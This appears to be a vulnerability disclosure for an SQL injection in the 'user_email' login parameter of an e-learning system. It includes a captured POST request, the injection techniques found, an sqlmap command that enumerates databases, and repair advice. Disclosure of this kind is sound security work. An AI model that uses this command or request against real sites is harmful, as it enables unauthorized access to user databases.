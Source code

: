 ```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.210.199:1219
Connection: close
Referer: http://192.168.210.199:1219/e-learningsystem/login.php
Upgrade-Insecure-Requests: 1
Priority: u=1

user_email=123231&user_pass=21312312&btnLogin=
```

## Vulnerability type: 
+ time-based blind
+ boolean-based blind
+ error-based
+ UNION query

## Vulnerability location:
+ 'user_email' parameter 
## Payload: 
<img width="365" alt="2" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/6c920481-4dd7-4d2c-a66a-0b9b5ac3103d">


## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -u 192.168.210.199:1219/e-learningsystem/login.php --data="user_email=123231&user_pass=21312312&btnLogin=" --method=POST --batch --dbs 


```
<img width="264" alt="3" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/52abdf91-d92b-406b-8822-e7cd34d79947">


# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 
